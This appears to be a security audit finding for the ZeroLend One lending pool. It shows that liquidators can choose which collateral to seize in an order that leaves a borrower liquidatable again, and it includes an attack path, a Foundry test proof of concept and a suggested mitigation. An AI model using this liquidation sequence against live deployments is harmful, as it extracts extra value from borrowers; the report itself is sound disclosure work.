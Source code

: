Stale Tweed Seal

High

# Liquidation doesn't prioritize lowest LTV/Liquidation Threshold assets

### Summary

Liquidation doesn't prioritize lowest LTV/Liquidation Threshold assets and since the liquidator can freely choose any collateral asset supplied by the liquidatee to perform liquidation, it can be disadvantageous for the liquidatee depending on which collateral asset is selected.

### Root Cause

* Liquidator can freely choose any collateral asset supplied by the liquidatee to perform the [liquidation](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/Pool.sol#L129-L130).
* The LTV and Liquidation Threshold of a position is calculated as a [weighted average](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/GenericLogic.sol#L135-L139) of the LTVs and Liquidation Thresholds of the different supplied assets.

### Internal pre-conditions

A pool has :
1. `tokenA` with an LTV of 7500 and a Liquidation Threshold of 8000 and a price of $1
2. `tokenB` with an LTV of 6000 and a Liquidation Threshold of 6500 and a price of $2
3. `tokenC` with a price of $100

### External pre-conditions

N/A

### Attack Path

1. Alice supplies 1500 of `tokenA` and 750 of `tokenB`, the average LTV is 6750 and the average Liquidation Threshold is 7250 
2. Alice borrows 20.25 of `tokenC`
3. Price of `tokenC` increases to $125 and Alice becomes liquidatable
4. Bob liquidates Alice :
  * If `tokenA` is used first : the average LTV becomes 6000 and the average Liquidation Threshold becomes 6500. The health factor of the position ends up being below 1, allowing Bob to liquidate Alice again.
  * If `tokenB` is used first : the average LTV becomes 7500 and the average Liquidation Threshold becomes 8000. The health factor of the position ends up being above 1.

### Impact

Liquidatee position ends up with a less than optimal LTV, Liquidation Threshold and Health Factor and may be liquidatable more times than needed in the worse case.

### PoC

```diff
diff --git a/zerolend-one/test/forge/core/pool/PoolSetup.sol b/zerolend-one/test/forge/core/pool/PoolSetup.sol
index 742a71b..c6b9894 100644
--- a/zerolend-one/test/forge/core/pool/PoolSetup.sol
+++ b/zerolend-one/test/forge/core/pool/PoolSetup.sol
@@ -55,13 +55,11 @@ abstract contract PoolSetup is CorePoolTests {
     sources[2] = address(oracleC);
     sources[3] = address(oracleD);

-    DataTypes.InitReserveConfig memory config = _basicConfig();
-
     DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](4);
-    configurationLocal[0] = config;
-    configurationLocal[1] = config;
-    configurationLocal[2] = config;
-    configurationLocal[3] = config;
+    configurationLocal[0] = _basicConfig(7500, 8000, 18);
+    configurationLocal[1] = _basicConfig(6000, 6500, 18);
+    configurationLocal[2] = _basicConfig(8000, 8500, 18);
+    configurationLocal[3] = _basicConfig(6500, 7000, 18);

     address[] memory admins = new address[](1);
     admins[0] = address(this);
@@ -80,12 +78,16 @@ abstract contract PoolSetup is CorePoolTests {
     });
   }

-  function _basicConfig() internal pure returns (DataTypes.InitReserveConfig memory c) {
+  function _basicConfig(
+    uint256 ltv,
+    uint256 liquidationThreshold,
+    uint256 decimals
+  ) internal pure returns (DataTypes.InitReserveConfig memory c) {
     c = DataTypes.InitReserveConfig({
-      ltv: 7500,
-      liquidationThreshold: 8000,
+      ltv: ltv,
+      liquidationThreshold: liquidationThreshold,
       liquidationBonus: 10_500,
-      decimals: 18,
+      decimals: decimals,
       frozen: false,
       borrowable: true,
       borrowCap: 0,
```

```solidity
  function testLiquidationLTV() external {
    _mintAndApprove(alice, tokenA, 3000 ether, address(pool));
    _mintAndApprove(alice, tokenB, 3000 ether, address(pool));

    _mintAndApprove(bob, tokenC, 100 ether, address(pool));

    vm.startPrank(bob);
    pool.supplySimple(address(tokenC), bob, 30 ether, 0);
    vm.stopPrank();

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, 1500 ether, 0);
    pool.supplySimple(address(tokenB), alice, 750 ether, 0);
    pool.borrowSimple(address(tokenC), alice, 20.25 ether, 0);
    vm.stopPrank();

    oracleC.updateAnswer(125e8);

    uint256 snapshot = vm.snapshot();
    // tokenB then tokenA
    vm.prank(bob);
    pool.liquidateSimple(address(tokenB), address(tokenC), pos, type(uint256).max);

    (, , uint256 availableBorrowsBase1, uint256 currentLiquidationThreshold1, uint256 ltv1, uint256 healthFactor1) = pool
      .getUserAccountData(alice, 0);

    assertGt(availableBorrowsBase1, 0);
    assertGe(healthFactor1, 1e18);

    // Second liquidation fails
    vm.expectRevert(bytes('HEALTH_FACTOR_NOT_BELOW_THRESHOLD'));
    vm.prank(bob);
    pool.liquidateSimple(address(tokenA), address(tokenC), pos, type(uint256).max);

    vm.revertTo(snapshot);

    // tokenA then tokenB
    vm.prank(bob);
    pool.liquidateSimple(address(tokenA), address(tokenC), pos, type(uint256).max);

    (, , uint256 availableBorrowsBase2, uint256 currentLiquidationThreshold2, uint256 ltv2, uint256 healthFactor2) = pool
      .getUserAccountData(alice, 0);

    assertEq(availableBorrowsBase2, 0);
    assertLt(healthFactor2, 1e18);

    assertGt(availableBorrowsBase1, availableBorrowsBase2);
    assertGt(currentLiquidationThreshold1, currentLiquidationThreshold2);
    assertGt(ltv1, ltv2);
    assertGt(healthFactor1, healthFactor2);

    vm.prank(bob);
    pool.liquidateSimple(address(tokenB), address(tokenC), pos, type(uint256).max);
  }
```

### Mitigation

Prioritize lower LTV / Liquidation threshold assets for liquidation.